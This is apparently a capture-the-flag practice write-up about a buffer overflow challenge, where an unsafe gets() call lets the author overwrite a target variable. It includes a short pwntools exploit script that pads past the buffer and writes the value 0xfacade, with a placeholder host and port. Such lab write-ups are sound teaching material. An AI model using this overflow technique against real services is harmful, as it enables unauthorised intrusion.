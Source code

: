 # A Basic pwn Question

This is a Buffer overflow question. In this question I need to over write the target1 or target0 to get the flag!

## Analyst the source code
![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/c78583db-9a51-44cd-a497-e8788d4cafe2)

### After basic check I see gets(buf) it is a really dangurous thing! This will alow me to over write things.

Lets try use ghidra to disassemble the binary file

![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/991459d1-d2ab-49ae-9226-6d91297b45fb)

## After Analysis 

I see buf take 64 space, then sample take 24 space, next is target1.

I write this script to overwrite the target1

import pwn

io = pwn.remote("pwn", port number )

io.sendline()

payload = b"A" * 50  # Fill `buf`

payload += b"A" * 14  # reach next integer variable on a 64-bit system

payload += b"A" * 24 # fill sample

payload += pwn.p32(0xfacade)  

io.sendline(payload)
io.interactive()
